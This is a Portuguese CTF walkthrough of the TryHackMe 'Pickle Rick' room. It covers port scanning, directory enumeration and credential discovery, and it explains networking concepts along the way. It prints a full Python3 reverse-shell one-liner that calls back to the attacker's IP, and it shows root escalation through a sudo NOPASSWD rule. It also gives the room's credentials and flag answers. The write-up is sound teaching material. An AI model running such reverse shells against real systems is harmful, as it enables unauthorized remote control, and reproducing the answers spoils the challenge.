---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# 🥒 Pickle Rick -  Easy

Para começarmos, iremos nos conectar ao servidor VPN do TryHackMe usando o seguinte comando: sudo openvpn (diretório do arquivo). Caso esteja usando uma máquina virtual, pode pular este passo.

<figure><figcaption><p>image1</p></figcaption></figure>

Primeiramente, iremos fazer um scan nas portas abertas do host alvo, ou seja, o IP que o TryHackMe nos proporciona.

Utilizando o nmap, nós iremos fazer uma varredura nas portas até um determinado número que irei definir como 10000.

**Mas primeiro para que o Nmap serve?**

* O **Nmap** é uma ferramenta de código aberto usada para descobrir dispositivos, mapear redes, varrer portas e identificar serviços em execução. Ele é amplamente utilizado por administradores de sistemas e profissionais de segurança para auditoria e análise de segurança de redes.

```bash
nmap -p 10000 -sV -sC IP-DO-TRYHACKME
```

<figure><figcaption><p>image2</p></figcaption></figure>

**Agora, irei explicar para que os comandos servem:**

* O **-p** serve para você selecionar uma quantidade de portas, podendo ser default ou um número específico colocado logo após, como no caso -p -10000. O - antes do 10000 é uma abreviação para definir que é de 0 até 10000.
* O **-sV** serve para determinar a versão dos serviços que estão abertos nas portas.
* O **-sC** serve para executar um script automático do nmap para dar detalhes sobre os serviços e detectar possíveis vulnerabilidades.

**Caso queira se aprofundar sobre:** [**https://nmap.org/man/pt\_BR/index.html**](https://nmap.org/man/pt\_BR/index.html)

Após o nmap escanear as portas abertas, podemos perceber que temos 2 portas abertas: a porta 22/tcp com o serviço SSH e a porta 80/tcp com o serviço HTTP.

<figure><figcaption><p>image3</p></figcaption></figure>

**Primeiro, irei explicar o que é uma Porta Aberta.**&#x20;

* Uma **Porta Aberta** significa que a porta está aceitando conexões de entrada, lembrando que uma porta é um ponto virtual onde começam e terminam as conexões de rede, ou seja, tem algum aplicativo lá que está pronto ou está recebendo dados de entrada.

Também temos as portas gerais.&#x20;

A "**Porta geral**" se refere a uma porta específica em um dispositivo de rede usada para um serviço bem conhecido. Essas portas são designadas pela **Internet** **Assigned Numbers Authority** IANA para serviços específicos:

* Porta 80: HTTP (Hypertext Transfer Protocol)
* Porta 443: HTTPS (HTTP Secure)
* Porta 22: SSH (Secure Shell)
* Porta 25: SMTP (Simple Mail Transfer Protocol)
* Porta 21: FTP (File Transfer Protocol)

**É importante ressaltar que,** embora estas portas estejam frequentemente associadas aos serviços mencionados, elas podem ser configuradas de forma diferente em certos casos. Por exemplo, administradores de sistemas podem optar por mudar a porta padrão do serviço SSH para dificultar ataques automatizados.

**Além disso, cada protocolo opera em camadas distintas**. Por exemplo, o HTTP e o HTTPS operam na camada de aplicação do modelo OSI, enquanto o SSH, SMTP e FTP operam em níveis mais baixos. Essas portas são reservadas para esses fins e são fundamentais para configurar firewalls e garantir a segurança da rede.

<figure><figcaption><p>Exemplo Camadas</p></figcaption></figure>

**Agora, vamos ver o que é TCP.**&#x20;

* O **TCP**, ou Transmission Control Protocol, é um protocolo de rede que os computadores usam para enviar ou receber informações, garantindo a entrega confiável das informações.&#x20;
* O **UDP**, ou User Datagram Protocol, tem a mesma função de transmitir informações entre computadores, porém, enquanto o Protocolo TCP é mais confiável e seguro ao transmitir informações, ele acaba sendo mais lento. Então, para aplicativos que exigem uma eficiência maior e com menos preocupação na entrega das informações, utiliza-se o UDP.

**Agora que sabemos sobre as portas e como são transmitidas as informações, vamos ver os serviços.**

* O **SSH**, ou Secure Shell, é um protocolo de comunicação entre dois dispositivos dentro da rede, geralmente o cliente (sua máquina) e o servidor (onde está hospedado o serviço). Ele é normalmente usado para acessar e controlar remotamente dispositivos, principalmente servidores, de forma segura e com uma conexão criptografada.

<figure><figcaption><p>SSH Demonstração</p></figcaption></figure>

* O **HTTP,** ou **Hypertext Transfer Protocol**, é um protocolo de comunicação utilizado para transferir dados pela **World Wide Web**. Ele é o principal protocolo utilizado para acessar e enviar informações em páginas da web.

<figure><figcaption><p>HTTP Demonstração</p></figcaption></figure>

**Caso queiram se aprofundar sobre:** [https://www.cloudflare.com/pt-br/learning/network-layer/what-is-a-computer-port/](https://www.cloudflare.com/pt-br/learning/network-layer/what-is-a-computer-port/)

Sabendo disso, nós conseguimos ver que temos uma página web aberta naquele IP, então colocamos ele na barra de pesquisa e então... KATCHAU!, temos um site.

<figure><figcaption><p>image4</p></figcaption></figure>

Quase me esqueci, o motivo de eu ter escolhido primeiro ir atrás do site é porque, para acessar o servidor utilizando o SSH, é necessário ter um usuário e uma senha, que inicialmente não temos.

Agora, nós iremos ver se o site tem algum diretório ou caminho escondido utilizando o Gobuster.

```bash
gobuster -u http://IP-DO-TRYHACKME/ -m CAMINHO-ATÉ-A-WORDLIST -x php,js,css,html,txt,cgi
```

<figure><figcaption><p>image5</p></figcaption></figure>

**Mas para que serve o Gobuster?**

* O **Gobuster** serve para fazer um ataque de força bruta e de enumeração em servidores web, ou seja, ele vai atrás de diretórios ou caminhos ocultos em um servidor web, tentando acessar várias URLs dentro daquele servidor. Exemplo: http://localhost/ - essa seria a URL padrão, o Gobuster tentaria acessá-la várias vezes colocando mais finais, como http://localhost/login, http://localhost/password, http://localhost/index, até conseguir encontrar algo ou então até terminar a wordlist (lista de palavras) que você colocou.

**Sabendo para que serve, vamos ver para que serve os comandos utilizados:**

* O **-u** serve para você colocar qual a URL do servidor web.
* O **-w** é para colocar o caminho para a wordlist (lista de palavras) que você estará usando. No meu caso, estou usando a directory-list-2.3-medium (só jogar no Google e colocar "github" no final que você acha).
* O **-x** é para extensão do arquivo, ou seja, a terminação como, por exemplo, index.html ou então login.php.

**Caso queira se aprofundar sobre:** [**https://acervolima.com/gobuster-ferramentas-de-teste-de-penetracao-nas-ferramentas-kali/#google\_vignette**](https://acervolima.com/gobuster-ferramentas-de-teste-de-penetracao-nas-ferramentas-kali/#google\_vignette)

<figure><figcaption><p>image6</p></figcaption></figure>

Como podemos ver, após aguardar alguns minutos, ele achou alguns caminhos ocultos que usaremos depois do "/". Exemplo: http://localhost/robots.txt, http://localhost/index.html, http://localhost/login.php.

Agora, iremos verificar cada um para ver se encontramos algo.

<figure><figcaption><p>image7</p></figcaption></figure>

No index.html é a página inicial.

Nessa URL, conseguimos algo, provavelmente o painel do servidor web, mas precisamos de um usuário e uma senha.

<figure><figcaption><p>image8</p></figcaption></figure>

Após usarmos portal.php voltamos para a mesma página do login.php.

<figure><figcaption><p>image9</p></figcaption></figure>

No robots.txt, achamos algo, mas não sabemos se iremos utilizar, mas sempre é bom guardar, **Wubbalubbadubdub**.

<figure><figcaption><p>image10</p></figcaption></figure>

Olhamos tudo e percebemos que precisamos de um login e uma senha, pode ser que a palavra achada no robots.txt seja ou o login ou a senha. Como não encontramos mais nada na parte visual, iremos dar uma inspecionada no código por trás das páginas.

Voltando ao index.html, não conseguimos muitas informações na parte visual, então vamos dar uma inspecionada nele usando o F12 no Chrome e então, BINGO! Temos um login, **R1ckRul3s**.

<figure><figcaption><p>image11</p></figcaption></figure>

Após olharmos as outras, não encontramos nada.... mas peraí, nós temos aquela palavra esquisita colocada no robots.txt, então entramos no /login.php e colocamos o login: **R1ckRul3s** e a senha: **Wubbalubbadubdub** e então KATCHAU!! Conseguimos entrar.

<figure><figcaption><p>image12</p></figcaption></figure>

Após entrarmos, podemos ver que temos um tal de Command Panel, poderia ser que fosse algum painel de administrador para executar comandos, então vamos tentar executar algo nele. Usei um comando básico do Linux, o ls, que serve para listar os arquivos existentes no diretório atual e então.... BINGO! Conseguimos mais URLs.

<figure><figcaption><p>image13</p></figcaption></figure>

Vamos dar uma checada em cada um... no primeiro, conseguimos algo. Temos que o super ingrediente secreto é o **mr. meeseek hair**, vamos guardar essa informação.

<figure><figcaption><p>image14</p></figcaption></figure>

Nos assets, vemos algumas configurações do sistema, porém nada de útil.

<figure><figcaption><p>image15</p></figcaption></figure>

Na clue, recebemos uma dica: "olhe ao redor dos arquivos do sistema para encontrar o outro ingrediente", então nós temos que entrar no sistema.

<figure><figcaption><p>image16</p></figcaption></figure>

No denied, não tinha nada demais.

<figure><figcaption><p>image17</p></figcaption></figure>

Agora, iremos voltar para a página de comandos, ele está rodando Linux, ou seja, ele pode executar comandos e abrir portas, ou seja, nós podemos fazer um Reverse Shell. Vamos utilizar esse terminal para abrir o caminho para dentro do sistema, mas primeiro vamos testar para ver se ele nos dá permissão para fazer isso.

Após alguns testes, vemos que podemos usar o Python3 no terminal.

<figure><figcaption><p>image18</p></figcaption></figure>

**Então, vamos fazer um Reverse Shell, mas primeiro vamos ver o que é um Reverse Shell.**

* O **Reverse Shell** é uma técnica onde o Atacante consegue estabelecer uma conexão de rede de saída, ou seja, o host que envia a conexão para o seu computador. Isso normalmente é utilizado quando o alvo está por trás de um firewall ou de outras medidas de segurança que bloqueiam conexões de entrada.

<figure><figcaption><p>Reverse Shell Demonstração</p></figcaption></figure>

**Agora que sabemos o que é um Reverse Shell como iremos fazer um?**&#x20;

Existem várias maneiras de fazer um Reverse Shell, mas no nosso caso nos já temos acesso a um Shell(Terminal) que está rodando no Servidor alvo, ou seja nos temos que configurar um Servidor para receber a conexão de saída do Servidor, para isso iremos utilizar o pwncat-cs.

**Caso queiram se aprofundar sobre:** [https://medium.com/@morganbinbash/reverse-shell-db7424f6ca88](https://medium.com/@morganbinbash/reverse-shell-db7424f6ca88)

**Mas primeiro o que é o pwncat-cs?**

* O **pwncat-cs** é uma ferramenta de linha de comando para criar conexões de rede seguras, permitindo comunicações protegidas por criptografia.

```bash
pwncat-cs -p 9999
```

<figure><figcaption><p>image19</p></figcaption></figure>

**Para que servem os comandos:**

* O **-p** permite que você defina manualmente a porta na qual você receberá a conexão com o servidor, ouvindo as conexões de saída. Por exemplo, no caso, iremos utilizar a Porta 9999.

**Tentei procurar algum site em português porém não encontrei,mas caso saiba inglês ou queira se aprimorar no pwncat:** [https://pwncat.readthedocs.io/en/latest/usage.html](https://pwncat.readthedocs.io/en/latest/usage.html)

<figure><figcaption><p>image20</p></figcaption></figure>

Após executarmos o comando no nosso Servidor, estamos prontos para receber a conexão de saída do nosso Servidor-Alvo. No entanto, surge um problema: como iremos enviar essa conexão para o nosso servidor?

Lembrando do command panel que testamos e vimos que roda Python, decidimos utilizá-lo para fazer a conexão. Mas como faremos, Fernando? Existem várias maneiras. Por exemplo, você pode criar seu próprio código. No entanto, no nosso caso, procurei no Google por "reverse shell python3". Então encontramos um site chamado pentestmonkey.

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("SEU-IP´", PORTA-PARA-SE-ABRIR));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

<figure><figcaption><p>image21</p></figcaption></figure>

Após pegarmos o comando, vamos modificar o IP para o nosso próprio IP e a porta para a porta que abrimos anteriormente. No nosso caso, foi 9999, então vamos usá-la. No entanto, surge outro problema: como saber nosso IP? É simples. Basta abrir o terminal e usar o seguinte comando:

```
ip a s tun0 
```

Ou

```
ip addr show tun0
```

Os dois são o mesmo, sendo que o primeiro é apenas uma abreviação do segundo.&#x20;

Após executar esse comando ira aparecer o ip você pega ele completo até antes do / como no meu caso 10.2.118.150, tá mas porque o tun0?&#x20;

* O **tun0** é uma interface de rede virtual criada pelo OpenVPN quando uma conexão VPN é estabelecida. Ou seja IP associado ao tun0 é o endereço IP atribuído ao seu dispositivo na rede virtual criada pela VPN.

<figure><figcaption><p>image22</p></figcaption></figure>

Agora, com tudo pronto e o servidor configurado para receber a conexão, voltaremos ao command panel e copiaremos o comando de Reverse Shell que editamos.

<figure><figcaption><p>image23</p></figcaption></figure>

Após clicarmos em "**Execute**", BINGO!! Estamos dentro.

<figure><figcaption><p>image26</p></figcaption></figure>

Agora, nós iremos sair do pwncat e ir para o sistema mesmo utilizando o comando back.

<figure><figcaption><p>image28</p></figcaption></figure>

Estamos conectados com o servidor.&#x20;

**Mas antes de tudo precisamos entender alguns comandos basicos do linux:**

* O **pwd** mostra o diretório atual em que você está.
* O **cd** navega entre diretórios. Por exemplo, cd /home/usuario leva você para o diretório "/home/usuario".
* **O ls** lista os arquivos e diretórios no diretório atual.
* O **mkdir** cria um novo diretório. Por exemplo, mkdir documentos cria um diretório chamado "documentos".&#x20;
* O **rmdir** remove um diretório vazio. Por exemplo, rmdir documentos remove o diretório "documentos", desde que esteja vazio.&#x20;
* O **sudo** permite executar comandos com privilégios de superusuário.&#x20;
* man: Exibe o manual de um comando. Por exemplo, man ls exibe o manual do comando "ls".&#x20;
* O **cp** copia arquivos ou diretórios. Por exemplo, cp arquivo.txt novo\_arquivo.txt copia o arquivo "arquivo.txt" para "novo\_arquivo.txt".&#x20;
* O **mv** move arquivos ou diretórios. Por exemplo, mv arquivo.txt diretorio/ move o arquivo "arquivo.txt" para o diretório "diretorio/".&#x20;
* O **clear** Limpa a tela do terminal.

<figure><figcaption><p>Demonstração comandos</p></figcaption></figure>

Agora, nós temos que procurar pelos nossos objetivos nessa CTF, que são encontrar os ingredientes para fazer a poção para o Rick. Já encontramos um, falta mais 2. Vamos navegar pelo sistema usando o ls e o cd, sendo o ls para ver os arquivos e o cd para entrar ou sair dos diretórios.

Após olharmos, podemos ver que não tem nenhuma informação que não já não tenhamos visto previamente.

<figure><figcaption><p>image29</p></figcaption></figure>

Voltamos alguns diretórios utilizando o

```bash
cd .. 
```

E então encontramos o home. Após acessarmos, achamos o second ingredient, ou seja, o segundo ingrediente que precisamos. Abrimos ele usando o comando cat e KATCHAU!!&#x20;

O segundo ingrediente é **1 jerry tear.** Vamos salvar a informação.

<figure><figcaption><p>image30</p></figcaption></figure>

No home, nós também encontramos outro diretório chamado "ubuntu". Vamos acessá-lo para ver o que tem nele.

<figure><figcaption><p>imagem31</p></figcaption></figure>

Após olharmos, não tem nada, acho que nós teremos que olhar na parte do "/root" para ver se ele salvou alguma informação lá, mas primeiro precisamos conseguir acesso de root. Vamos utilizar o comando sudo -l para vermos o que podemos executar sem comando de root.

**Mas para que serve o sudo -l?**

* O comando **sudo -l** é utilizado para listar os privilégios do usuário atual no sistema. Ele exibe as permissões que o usuário possui para executar comandos como superusuário (root) através do comando sudo.

&#x20;**Agora o que é esse (ALL) NOPASSWD: ?**

* O **NOPASSWD** indica quais comandos específicos o usuário tem permissão para executar como superusuário (root) sem a necessidade de inserir a senha.
* O **(ALL) NOPASSWD** significa que o usuário pode executar qualquer comando especificado sem precisar fornecer sua senha.

Opa, CHECK-MATE!! Podemos executar qualquer arquivo como root sem utilizar senha.

<figure><figcaption><p>image32</p></figcaption></figure>

Agora so precisamos executar o comando para colocarmos o terminal como root que no caso é:

```bash
sudo bash
```

<figure><figcaption><p>image33</p></figcaption></figure>

TOMA GAP! Conseguimos acesso de root, agora tudo que precisamos fazer é entrar dentro do diretório do root e procurarmos usando o ls.

E então EUREKA! Conseguimos achar o 3º ingrediente.&#x20;

Usando o cat, nós vemos o conteúdo dele, e então com isso conseguimos acabar esse desafio.&#x20;

O 3º ingrediente é **fleeb juice**.&#x20;

Vamos guardar e colocar as respostas no TryHackMe e então finalmente iremos acabar esse desafio.

<figure><figcaption><p>image34</p></figcaption></figure>

Agora, nós iremos no site e colocar as informações e então TOMA GAP! **Conseguimos acabar o Desafio.**&#x20;

<figure><figcaption><p>image35</p></figcaption></figure>

**Obrigado por lerem até o final e espero que tenham absorvido alguma coisa e mais do que tudo se divertido.**

Se você notar qualquer erro, tiver algo para acrescentar ou quiser compartilhar alguma dica ou feedback, por favor, envie para o meu email: **retzgithub@gmail.com**.
